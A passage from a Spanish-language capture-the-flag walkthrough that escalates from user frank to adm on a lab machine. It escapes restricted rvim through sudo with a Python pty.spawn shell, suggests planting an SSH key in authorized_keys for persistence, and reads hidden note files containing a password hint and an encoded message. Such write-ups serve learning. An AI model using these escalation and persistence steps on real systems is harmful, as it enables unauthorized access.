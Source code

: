 ```{r, echo = FALSE, fig.cap="groups nfs share folders", out.width="90%"}
    whoami
    #Output
    frank
    ```

Ya podemos leer la flag.

> [ ! ] NOTAS: como la reverse shell no es la mejor del mundo, aqui nos podriamos crear una id_rsa y copiarla en el authorized_keys del usuario Frank para
conectarnos por ssh y obtener una mejor shell.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
```

Aqui vemos que podriamos ejecutar el `/usr/bin/rvim` del fichero `/var/www/html/jailuser/dev/jail.c` como el usuario adm sin proporcionar contraseña.

```bash
sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c

:!/bin/sh
#Output 
No se permite orden de consola en rvim

:set shell = /bin/bash
:shell
```

Aqui vemos que no podemos ejecutar comandos pero lo bueno es que rvim permite ejecutar codigo en python

```bash
:py import pty;pty.spawn("/bin/bash")
whoami 
#Output
adm
```

Aqui vemos que estamos en el directorio `/var/adm`

```bash
ls -la
cd .keys
ls -la
cat note.txt
```

Vemos un mensaje del Administrator a frank diciendole que su contraseña para encryptar cosas tiene que ser sur segundo nombre seguido de 4 digitos y un simbolo.

```bash
cd .local
ls -la
cat .frank
#Output
Szszsz! Mlylwb droo tfvhh nb mvd kzhhdliw! Lmob z uvd ofxpb hlfoh szev Vhxzkvw uiln Zoxzgiza zorev orpv R wrw!!!
```
